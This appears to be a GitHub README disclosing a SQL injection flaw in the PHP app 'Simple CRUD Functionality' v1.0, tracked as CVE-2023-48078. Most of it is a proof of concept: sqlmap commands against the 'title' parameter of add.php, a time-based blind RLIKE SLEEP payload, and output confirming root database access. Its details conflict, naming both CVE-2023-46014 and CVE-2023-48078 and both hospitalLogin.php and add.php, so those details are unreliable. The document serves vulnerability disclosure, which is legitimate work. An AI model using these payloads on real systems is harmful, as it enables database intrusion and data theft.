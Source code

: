 # Simple-CRUD-Functionality-SQLi-POC - CVE-2023-48078
+ Exploit Author: esasadam06
# Vendor Homepage
+ https://code-projects.org/simple-crud-functionality-in-php-with-source-code
# Software Link
+ https://download.code-projects.org/details/8e863682-a839-4645-94e0-ae769c83635d
# Overview
+ Simple CRUD Functionality SQLi POC is susceptible to a significant security vulnerability that arises from insufficient protection on the 'title' parameters in the hospitalLogin.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46014
+ Affected Version: Simple CRUD Functionality V1.0
+ Vulnerable File: /add.php
+ Parameter Names: title
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48078
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48078
# Description
+ The lack of proper input validation and sanitization on the 'title' parameters allows an attacker to craft SQL injection queries, gaining unauthorized access to the database.


# Proof of Concept (PoC) : 
+ `sqlmap -u 'http://localhost/CRUD-Operation/add.php' -p 'title' --data="title=test&descr=test&sub=" --risk=3 --level=3 --method='POST' -D 'crud'`

```
---
Parameter: title (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: title=test' RLIKE SLEEP(5) AND 'FxIv'='FxIv&descr=test&sub=
---
```
+ `sqlmap -u 'http://localhost/CRUD-Operation/add.php' -p 'title' --data="title=test&descr=test&sub=" --risk=3 --level=3 --method='POST' -D 'crud' -T 'notes' --is-dba --current-user`

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: title (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: title=test' RLIKE SLEEP(5) AND 'FxIv'='FxIv&descr=test&sub=
---

root@localhost
current user: 'root@localhost'
```
![image](https://github.com/esasadam06/Simple-CRUD-Functionality-SQLi-POC/assets/48632551/f1ce31be-d8dd-408b-87c1-a37d6cd76448)
